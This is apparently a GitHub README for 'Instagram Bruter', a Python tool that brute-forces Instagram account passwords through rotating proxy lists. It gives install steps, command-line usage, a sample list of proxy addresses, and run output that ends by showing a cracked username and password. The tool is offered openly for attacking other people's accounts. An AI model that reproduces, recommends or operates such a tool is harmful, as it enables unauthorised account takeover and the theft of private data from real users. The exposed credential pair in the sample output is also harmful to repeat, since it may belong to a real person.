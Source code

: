 #Pavan-123-tech
# Instagram Bruter

[![Version](https://img.shields.io/badge/Version-3.1.0-green)]()
[![Python](https://img.shields.io/badge/Python-v3.9-yellow)]()
[![Discord](https://img.shields.io/badge/Discord-server-blue)](https://discord.gg/VYRAZg5)

This program will brute force any Instagram account you send it its way given a list of proxies.

### NOTICE

~~I'm no longer maintaining this project.~~

### Support
<h1>pavanraut9665@gmail.com</h1>

## Requirements

- Python _v3.9_
- proxy list

## Install Dependencies

### Install Pipenv

```
pip install pipenv
```

### Create environment

Make sure you have Python 3.9 installed

```
pipenv --python 3.9
```

### Install Requirements

```
pipenv install
```

## Help

```
usage: instagram.py [-h] [-u USERNAME] [-p PASSLIST] [-px PROXYLIST] [--prune PRUNE] [--stats] [-nc] [-m MODE]

optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --username USERNAME
                        email or username
  -p PASSLIST, --passlist PASSLIST
                        password list
  -px PROXYLIST, --proxylist PROXYLIST
                        proxy list
  --prune PRUNE         prune the database
  --stats               get statistics of the proxies
  -nc, --no-color       disable colors
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

## Proxies

The system needs a list of proxies to work. Once uploaded, proxies are saved into a database.<br/>

### Upload

Upload a list of proxies into the program. The proxy file must have a format of `ip:port`<br/>

`proxies_list.txt`

```
3.238.111.248:80
206.189.59.192:8118
165.22.81.30:34100
176.248.120.70:3128
191.242.178.209:3128
180.92.194.235:80
```

To upload a list of proxies a similar syntax must be followed.

```
python instagram.py -px <path to proxy list>
```

### Stats

This gives an insight into the health of the proxies in the database.

```
python instagram.py --stats
```

### Prune

This allows the able to get rid of proxies with a score below a given score.<br/>
It is recommended that you run the `--stats` and prune the database of proxies<br/>
who have a proxy score below `Q1`.

```
python instagram.py --prune 0.05
```

Pruning is not a requirement because the <br/>
the system will automatically learn which proxies perform poorly and stop using them.

### Usage

```
python instagram.py -u <username> -p <passlist>
```

### Run

```
[-] Wordlist: passlist.txt
[-] Username: Sami09.1
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: passlist.txt
[-] Username: Sami09.1
[-] Password: Sami123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
```
<h1>Thank you !!!</h1>
